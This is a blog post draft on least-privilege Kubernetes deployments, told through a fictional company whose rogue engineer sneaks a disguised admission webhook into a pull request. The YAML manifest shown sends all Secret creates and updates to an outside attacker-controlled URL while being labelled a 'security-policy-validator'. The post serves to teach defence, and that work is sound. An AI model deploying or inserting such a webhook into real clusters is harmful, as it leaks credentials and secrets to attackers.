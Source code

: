 ```yaml
---
title: "Least Privilege Deployments in Kubernetes" # Title of the blog post.
date: 2023-02-24T16:19:09-06:00 # Date of post creation.
description: "Article description." # Description used for search engine.
featured: true # Sets if post is a featured post, making appear on the home page side bar.
draft: true # Sets whether to render this page. Draft of true will not be rendered.
toc: false # Controls if a table of contents should be generated for first-level links automatically.
# menu: main
usePageBundles: true # Set to true to group assets like images in the same folder as this post.
# featureImage: "/images/path/file.jpg" # Sets featured image on blog post.
# featureImageAlt: 'Description of image' # Alternative text for featured image.
# featureImageCap: 'This is the featured image.' # Caption (optional).
# thumbnail: "/images/path/thumbnail.png" # Sets thumbnail image appearing inside card on homepage.
# shareImage: "/images/path/share.png" # Designate a separate image for social media sharing.
codeMaxLines: 20 # Override global value for how many lines within a code block before auto-collapsing.
codeLineNumbers: true # Override global value for showing of line numbers within code block.
figurePositionShow: true # Override global value for showing the figure label.
categories:
  - Technology
tags:
  - kubernetes
  - security
  - supply chain
  - least privilege
# comment: false # Disable comment if false.
---
```


Many things in security tend to come down to the same few concepts, one of the most important being to limit the surface area of attack. The [principle of least privilege](https://en.wikipedia.org/wiki/Principle_of_least_privilege) is the idea that we should design our operations to use only the minimal set of permissions required to accomplish the task. When deploying applications in Kubernetes, this usually means making use of multiple personas for the deployment of different resources. (This concept applies to running applications as well, but that's a discussion for a different time.)

Many production Kubernetes clusters, even if used to host a single app, require deploying prequisites that may need to create cluster-level resources, such as [`CustomResourceDefinitions`](https://kubernetes.io/docs/tasks/extend-kubernetes/custom-resources/custom-resource-definitions/) or perhaps even `ClusterRole` and `ClusterRoleBinding` objects. These types of resources usually require a cluster administrator to deploy, because they have an effect broadly across the entire cluster. For convenience, many teams may be tempted to use this elevated permission set to deploy *everything* using that same persona. After all, who wants to deal with two (or more!) service principals in their pipelines? That's just too much work, and we've got a deadline to meet!

The danger here is that the more things you deploy, the less certainty you'll generally have of the content. Let's consider an example.

The dev team at the plastic container retailer Wiza-Bins[^1] has decided to run their next-gen, micro-service-based shopping platform atop Kubernetes. As part of the deployment, they've decided that like most modern Kubernetes devs, they'll make use of the [MySql operator](https://github.com/mysql/mysql-operator/tree/trunk/helm/mysql-operator) for Kubernetes, and deploy it via Helm. I'm as much a fan of operators as anyone else, but they generally rely on the ability to deploy CRDs and other cluster-level resources to provide their services, so you should always review these deployments to make sure they meet your security and compliance demands before deploying them to your cluster.

The Wiza-Bins team, being the devops-savvy group they are, decide to build a pipeline in their favorite CI/CD tool. They know they need to give the service principal cluster level permission to deploy the CRDs and cluster objects required by the MySQL operator chart, so they configure that, add their `helm upgrade -i ...` task to the pipeline and are off to the races. Success! They've now got a way to easily manage MySQL database instances within their cluster. Because the operator doesn't change very often, this pipeline doesn't run very much. Now, it's time to create the pipeline to deploy their application.

Frank, the lead devops engineer at Wiza-Bins, figures that there's no sense in creating another service account to deploy the application. After all, they've already configured the first one, and it's got all the access (and more!) that it needs to get their application deployed. Why spend the time configuring another? So he creates a second pipeline to deploy their app. Because their app consists of a few dozen microservices, the Helm charts they use for it consist of quite a few files. There are even a few other Helm charts that they use from other sources to deploy some additional dependencies

There is ***So. Much. YAML.***
![YAML for days!](lot-of-yaml.jpg)

Undeterred, Frank creates all the pipeline steps, `kubectl apply -f`-ing and `helm upgrade -i`-ing all over the place, copying examples from StackOverflow and other places on the web, until he's finally got the application successfully deployed. Hurrah! The new shopping platform is a success. Profits are up 250%. The team revels in their accomplishment. But now there's more work to do. Features to develop, reports to create; a developer's job is never done. So the team hires a few more engineers to tackle the work, including a particularly promising engineer named Scott who's got 10 years of production Kubernetes experience under his belt.[^2]

Scott, as it turns out, isn't the most trustworthy guy around. But he *does* know a thing or two about Kubernetes that his less erudite teammates do. So while he's creating a pull request to handle some configuration changes in the various Helm charts for the application, he decides to slip the following file into the mix.

```yaml
apiVersion: admissionregistration.k8s.io/v1
kind: ValidatingWebhookConfiguration
metadata:
  name: security-policy-validator
webhooks:
  - name: wizabin.validateya.ml
    failurePolicy: Ignore
    timeoutSeconds: 1
    admissionReviewVersions: ["v1", "v1beta1"]
    sideEffects: None
    rules:
    - operations: ["CREATE","UPDATE"]
      apiGroups: ["*"]
      apiVersions: ["*"]
      resources: ["secrets"]
    clientConfig:
      url: "https://wizabin.validateya.ml/validator"
```

Frank and Ben (another engineer on the team) review Scott's PR. They question the `ValidatingWebhookConfiguration` resource, having only seen things like `Deployments` and `Services` and the like. But Scott's the Kubernetes *expert*, and to a novice, anything labeled as "security" must be a good thing, right? So the PR gets approved, and later deployed to production.

A few weeks later, Scott gets an offer from another company, and leaves the team. Jim, the project manager, decides to throw a farewell party as a thanks for all Scott has contributed to the team. They'd never have made it to version 2.0 of the platform without his expertise in Kubernetes. Cake is eaten, handshakes and high-fives are exchanged, and Scott drives off at the end of the day.

...

[^1]: totally fake name generated via [this tool](https://fauxid.com/tools/fake-company-generator?country=united-states&count=10)
[^2]: perceptive readers will have already done the math here. [Kubernetes 1.0 was released on July 21, 2015...](https://en.wikipedia.org/wiki/Kubernetes#History)
